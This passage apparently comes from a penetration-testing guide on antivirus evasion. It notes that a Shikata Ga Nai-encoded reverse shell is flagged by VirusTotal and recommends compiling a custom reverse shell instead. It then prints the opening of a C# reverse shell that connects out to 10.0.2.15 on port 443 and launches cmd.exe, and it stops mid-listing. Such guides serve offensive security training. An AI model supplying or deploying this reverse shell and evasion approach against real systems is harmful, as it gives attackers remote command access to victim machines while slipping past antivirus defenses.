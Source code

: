 ![Output from VirusTotal for the reverse shell encoded with Shikata Ga Nai](../.gitbook/assets/0%20%2810%29.png)



There are a number of different approaches that can be taken to try and improve the evasion. The simplest and most successful is to use a simple C++ or csharp program to do the reverse shell and build it yourself. Taking as an example this \(https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc\) C\# program

```csharp
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;
namespace ConnectBack {
  public class Program {
    static StreamWriter streamWriter;
    public static void Main(string[] args) {
      using(TcpClient client = new TcpClient("10.0.2.15", 443)) {
        using(Stream stream = client.GetStream()) {
          using(StreamReader rdr = new StreamReader(stream)) {
            streamWriter = new StreamWriter(stream);
            StringBuilder strInput = new StringBuilder();
            Process p = new Process();
            p.StartInfo.FileName = "cmd.exe";
```